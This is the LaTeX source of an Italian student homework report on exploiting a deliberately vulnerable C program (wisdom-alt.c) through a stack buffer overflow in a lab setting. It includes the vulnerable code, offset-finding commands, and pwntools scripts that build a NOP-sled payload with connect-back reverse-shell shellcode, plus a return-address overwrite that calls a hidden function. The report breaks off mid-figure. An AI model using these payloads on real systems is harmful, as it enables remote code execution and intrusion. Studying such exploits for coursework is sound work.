 \documentclass[a4paper, 14pt, oneside]{extbook}
\usepackage[T1]{fontenc}
\usepackage[utf8x]{inputenc}
\usepackage[italian]{babel}
\usepackage[hmargin=2cm, top=2.5cm, bottom=3.5cm]{geometry}
\usepackage{courier}
\usepackage{hyperref}
\usepackage{url}  % Per gestire gli URL nella bibliografia

% Grafica
\usepackage{xcolor}
\usepackage{graphicx,pstricks}
\usepackage{graphics}
\usepackage{float}
\graphicspath{{img/}}

% Package usati per il frontespizio
\usepackage{tikz}
\usepackage{pgf-pie}
\usepackage{pgfplots}
\pgfplotsset{width=7cm,compat=1.8}
\usetikzlibrary{patterns}

%Chapter
\usepackage{titlesec}
\titlespacing*{\chapter}{0pt}{-\baselineskip}{20pt}
\titleformat{\chapter}[display]
  {\normalfont\huge\bfseries}{\chaptertitlename\ \thechapter}{20pt}{\huge}[\vspace{4pt}\color{darkgray!90}\titlerule]

%Formatting
\usepackage{changepage}
\newenvironment{mychapter}[1]{\chapter{#1}\begin{adjustwidth}{1cm}{0cm}}{\end{adjustwidth}}
\newenvironment{mychapterstar}[1]{\chapter*{#1}\begin{adjustwidth}{1cm}{0cm}}{\end{adjustwidth}}
\newenvironment{mysection}[1]{\begin{adjustwidth}{-1cm}{0cm}\section{#1}\end{adjustwidth}}{}
\newenvironment{mysubsection}[1]{\begin{adjustwidth}{-1cm}{0cm}\subsection{#1}\end{adjustwidth}}{}

%Algorithm
\usepackage{algorithm}
\usepackage[noend]{algpseudocode}

%Code snippets
\usepackage{listings}
\lstdefinestyle{mycode}{
    backgroundcolor=\color{gray!10},
    basicstyle=\ttfamily\small,
    breaklines=true,
    frame=single,
    rulecolor=\color{gray!40},
    numbers=left,
    numbersep=5pt,
    numberstyle=\tiny\color{gray},
    showstringspaces=false,
    tabsize=2,
    captionpos=b,
}
\lstset{style=mycode}

%Hyphenation
\tolerance=1
\emergencystretch=\maxdimen
\hyphenpenalty=10000
\hbadness=10000

%Header
\usepackage{fancyhdr}
\makeatletter
\newcommand{\mytitle}{\vspace*{\fill}\@title\vspace*{\fill}}
\makeatother
\setlength{\headheight}{52pt}

\fancypagestyle{plain}{%
  \fancyhf{}%
  \fancyhead[L]{
\includegraphics[scale=0.35]{img/logo_copertina_1.png}}
  \fancyhead[R]{\begin{minipage}[b]{.66\textwidth}\hfill\mytitle\end{minipage}}
  \fancyfoot[C]{\thepage}
}
\AtBeginDocument{\addtocontents{toc}{\protect\thispagestyle{empty}}} 

%Other
\usepackage{comment}
\usepackage{amsmath}
\usepackage{fix-cm}

%bibliografia
\usepackage{biblatex}
\addbibresource{bibliography.bib}



%=======================================================================================================================================

\title{Homework Software Security}

\begin{document}

\begin{titlepage}
\thispagestyle{empty}
\raggedright 
% Define \mysubtitle if not provided to avoid Undefined control sequence
\providecommand{\mysubtitle}{}

\begin{tikzpicture}
\node[anchor=south west] at (5,0) {
\includegraphics[scale=0.75]{img/logo_copertina_1}};
\node[anchor=south west] at (0,0.9) {
\includegraphics{img/logo_copertina_2}};
\node[anchor=south west] at (0,-1) {\textsf{\fontsize{15}{60}\selectfont \textbf{Software Security}}}; %<----- MODIFY HERE <-----
\end{tikzpicture}

\vfill

\vspace{3cm}

{\textbf{\textit{\LARGE \mytitle}}} % CHANGE THE TITLE ON "MAIN.TEX", NOT HERE
\\[0.5cm]
{\textbf{\textit{\Large \mysubtitle}}}
\\[1cm]
\vfill

\begin{table}[h]

\textbf{De Lucia Simone M63001720}\\ % DA CANCELLARE SE NON PRESENTE
\textbf{Covone Gabriel M63001809 }
\end{table}

\end{titlepage}
\pagestyle{empty}
\frontmatter

%\newpage
%\cleardoublepage
%\vspace*{\stretch{1}}
%\begin{flushright}
%\itshape Una dedica\\


%\end{flushright}
\vspace{\stretch{2}}
\cleardoublepage

\tableofcontents

\mainmatter
\pagestyle{plain}

\chapter{Buffer Overflow}

In questa challenge si tenta di sfruttare una vulnerabilità di tipo Buffer Overflow al fine di iniettare uno shellcode all'interno dell'applicativo vittima.

L'applicativo da attaccare è \texttt{wisdom-alt.c}, mostrato di seguito:

\begin{lstlisting}[language=C]
char greeting[] = "Hello there\n1. Receive wisdom\n2. Add wisdom\nSelection >";
char prompt[] = "Enter some wisdom\n";
char pat[] = "Achievement unlocked!\n";
char secret[] = "secret key";

int infd = 0; /* stdin */
int outfd = 1; /* stdout */

#define DATA_SIZE 512

typedef struct _WisdomList {
  struct  _WisdomList *next;
  char    data[DATA_SIZE];
} WisdomList; 

struct _WisdomList  *head = NULL;

typedef void (*fptr)(void);

void write_secret(void) {
  write(outfd, secret, sizeof(secret));
  return;
}

void pat_on_back(void) {
  write(outfd, pat, sizeof(pat));
  return;
}

void get_wisdom(void) {
  char buf[] = "no wisdom\n";
  if(head == NULL) {
    write(outfd, buf, sizeof(buf)-sizeof(char));
  } else {
    WisdomList  *l = head;
    while(l != NULL) {
      write(outfd, l->data, strlen(l->data));
      write(outfd, "\n", 1);
      l = l->next;
    }
  }
  write(outfd, "\n", 1);
  return;
}

void put_wisdom(void) {
  char  wis[DATA_SIZE] = {0}; 
  int   r;

  r = write(outfd, prompt, sizeof(prompt)-sizeof(char));
  if(r < 0) {
    return;
  }
 
  r = (int)gets(wis); 
  if (r == 0)
    return;

  WisdomList  *l = malloc(sizeof(WisdomList));

  if(l != NULL) {
    memset(l, 0, sizeof(WisdomList));
    strcpy(l->data, wis);
    if(head == NULL) {
      head = l;
    } else {
      WisdomList  *v = head;
      while(v->next != NULL) {
        v = v->next;
      }
      v->next = l;
    }
  }

  write(outfd, "\n", 1);

  return;
}

fptr  ptrs[3] = { NULL, get_wisdom, put_wisdom };

int main(int argc, char *argv[]) {

  while(1) {
      char  buf[1024] = {0};
      int r;
      fptr p = pat_on_back;
      r = write(outfd, greeting, sizeof(greeting)-sizeof(char));
      if(r < 0) {
        break;
      }
      r = read(infd, buf, sizeof(buf)-sizeof(char));
      if(r > 0) {
        buf[r] = '\0';
        int s = atoi(buf);
        fptr tmp = ptrs[s];
        tmp();
      } else {
        break;
      }
  }

  return 0;
}
\end{lstlisting}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../1.BufferOverflow/img/wisdom-alt.png}
  \caption{wisdom\_alt}
\end{figure}

\section{Challenge}

L'obiettivo è di sfruttare l'input che viene raccolto in ingresso per poter iniettare uno shellcode.

In particolare, all'interno di \texttt{put\_wisdom()}, è presente la funzione \texttt{gets()} che non effettua alcun controllo sulla dimensione dell'input, permettendo di scrivere oltre i limiti del buffer impostato.

\begin{lstlisting}[language=C]
void put_wisdom(void) {
  char  wis[DATA_SIZE] = {0}; 
  int   r;

  r = write(outfd, prompt, sizeof(prompt)-sizeof(char));
  if(r < 0) {
    return;
  }
 
  r = (int)gets(wis); 
  if (r == 0)
    return;

  WisdomList  *l = malloc(sizeof(WisdomList));

  if(l != NULL) {
    memset(l, 0, sizeof(WisdomList));
    strcpy(l->data, wis);
    if(head == NULL) {
      head = l;
    } else {
      WisdomList  *v = head;
      while(v->next != NULL) {
        v = v->next;
      }
      v->next = l;
    }
  }

  write(outfd, "\n", 1);

  return;
}
\end{lstlisting}

Il menu principale è possibile aggirarlo inserendo all'interno del payload che andremo a definire l'opzione insieme a un riempitivo. Il riempitivo è definito per via della funzione \texttt{read()} che occupa 1024 caratteri:

\begin{lstlisting}[language=bash]
$ python3 -c 'import sys; sys.stdout.write("2\n"+ "A"*1022)' > cyclic
\end{lstlisting}

Il passaggio principale è di definire una sequenza ciclica di De Bruijn, al fine di trovare lo stack pointer. Questo ci permetterà di ottenere il giusto offset.

Nel nostro caso, scegliamo una sequenza ciclica di 8 caratteri per 1200 caratteri totali:

\begin{lstlisting}[language=bash]
$ cyclic -n 8 1200 >> cyclic
\end{lstlisting}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../1.BufferOverflow/img/ch1_wisdom-pwnd.png}
  \caption{Applicazione wisdom messa fuori gioco}
\end{figure}

Dopo esserci accertati che l'attacco ha avuto successo, tramite \texttt{gdb} analizziamo il punto preciso in cui il programma è fuoriuscito dallo stack pointer, in modo da definire lo spazio per il nostro shellcode.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../1.BufferOverflow/img/ch1_stack.png}
  \caption{Analisi del buffer overflow}
\end{figure}

Nel nostro caso la sequenza da attaccare è la \texttt{ctaaaaaa}. Usiamo cyclic per scovare dove è collocata la sequenza ciclica.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../1.BufferOverflow/img/ch1_cyclic_location.png}
  \caption{Sequenza ciclica}
\end{figure}

Da qui, possiamo creare il nostro script per generare l'attacco:

\begin{lstlisting}[language=Python]
s_code = shellcraft.amd64.linux.connect('127.0.0.1', 12345) + shellcraft.amd64.linux.dupsh('rbp')

s_code_asm = asm(s_code)

ret_addr = 0x7FFFFFFFDA88 - 551
addr = p64(ret_addr, endian ='little')

nop = asm('nop', arch="amd64")

payload = b"2\n" + b"A"*1022

payload += nop*(551 - len(s_code_asm) - 64) + s_code_asm + nop*64 + addr

with open("./payload_challenge1", "wb") as f: 
	f.write(payload)
\end{lstlisting}

Infine, lo eseguiamo e avviamo una sessione server in un altro terminale.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../1.BufferOverflow/img/ch1_success.png}
  \caption{SuccessCh1}
\end{figure}

\section{Challenge Extra}

\subsection{Eseguire la funzione \texttt{write\_secret()}}

La funzione \texttt{write\_secret()} è una funzione che stampa la stringa "secret key" all'interno del terminale, e non è raggiungibile tramite il menu principale.

\begin{lstlisting}[language=C]
void write_secret(void) {
  write(outfd, secret, sizeof(secret));
  return;
}
\end{lstlisting}

\texttt{secret}, a sua volta, è una stringa dichiarata all'inizio del file:

\begin{lstlisting}[language=C]
char secret[] = "secret key";
\end{lstlisting}

In questo caso, eseguendo il programma tramite gdb, estraiamo l'indirizzo della funzione, andando prima a inserire un breakpoint nel \texttt{main}.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../1.BufferOverflow/img/chX1_gdb_breakpoint.png}
  \caption{write\_secret}
\end{figure}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../1.BufferOverflow/img/chX1_print.png}
  \caption{write\_secret}
\end{figure}

Da qui, creiamo il nostro payload:

\begin{lstlisting}[language=Python]
ret_addr = 0x555555555229
addr = p64(ret_addr, endian ='little')

nop = asm('nop', arch="amd64")

payload = b"2\n" + b"A"*1022

payload += b"A" * 551 + addr

with open("./payload_challenge_extra1", "wb") as f: 
	f.write(payload)
\end{lstlisting}

È possibile notare che, dall'output, siamo riusciti nel nostro intento:

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../1.BufferOverflow/img/chX1_success.png}
  \caption{SuccessChX1}
\end{figure}

\subsection{Attaccare \texttt{put\_wisdom()} nella versione a 32 bit}

L'accortezza principale è che ora gli indirizzi sono di 4 byte, e che la RET causa un'eccezione DOPO aver fatto il pop: l'indirizzo verrà rimosso dalla cima dello stack e inserito in EIP.

Come passaggio preliminare, compiliamo il file in modo da ottenere un eseguibile a 32 bit tramite il flag \texttt{-m32}:

\begin{lstlisting}[language=make]
wisdom-alt-32: wisdom-alt.c
	$(CC) -fno-stack-protector  -z execstack  -g -m32  wisdom-alt.c  -o wisdom-alt-32
\end{lstlisting}

Ripetendo gli stessi passaggi per quanto riguarda la versione a 64 bit, usando però una sequenza ciclica di 4 caratteri, troviamo prima il punto di ingresso tramite offset:

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../1.BufferOverflow/img/chX2_payload_test.png}
  \caption{Sequenza ciclica}
\end{figure}

Dopodiché, si trova il numero della sequenza ciclica della stringa ciclica all'interno di EIP:

\begin{figure}[H]
  \centering
